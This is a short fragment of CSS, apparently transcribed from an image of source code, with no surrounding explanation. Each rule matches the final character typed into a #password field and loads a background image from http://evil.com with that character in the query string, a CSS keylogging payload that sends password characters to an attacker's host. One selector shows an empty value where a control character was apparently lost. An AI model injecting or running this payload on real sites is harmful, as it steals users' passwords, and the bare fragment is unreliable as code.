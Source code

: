 ```css
#password[value$="y"] {
  background-image: url("http://evil.com/?c=y");
}
#password[value$="z"] {
  background-image: url("http://evil.com/?c=z");
}
#password[value$="{"] {
  background-image: url("http://evil.com/?c=%7B");
}
#password[value$="|"] {
  background-image: url("http://evil.com/?c=%7C");
}
#password[value$=""] {
  background-image: url("http://evil.com/?c=%7F");
}
```
